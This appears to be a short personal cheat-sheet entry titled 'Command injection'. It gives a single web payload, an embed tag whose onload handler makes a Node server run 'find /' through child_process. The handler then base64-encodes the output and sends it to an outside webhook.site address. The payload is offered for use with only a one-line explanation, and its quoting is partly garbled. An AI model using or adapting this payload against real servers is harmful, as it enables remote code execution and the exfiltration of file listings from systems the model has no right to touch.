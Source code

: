 ```yaml
---
title: Command injection
tags:
  - payload
  - infosec
  - injections
---
```


# With webhook

```html
<embed src=1 onload="fetch(./?eval=require( 'child_process' ).spawnSync( 'find', ['/']).stdout.toString()).then(a=>a.text()).then(a=>fetch('https://webhook.site/ae0bd822-b34b-4e87-aa65-3c22bc4c9999?c=%27+btoa(a)))%22%3E
```

*Command will exec a find command in location `/` after that send all that to plain text to webhook in URL `https://webhook.site/...`*

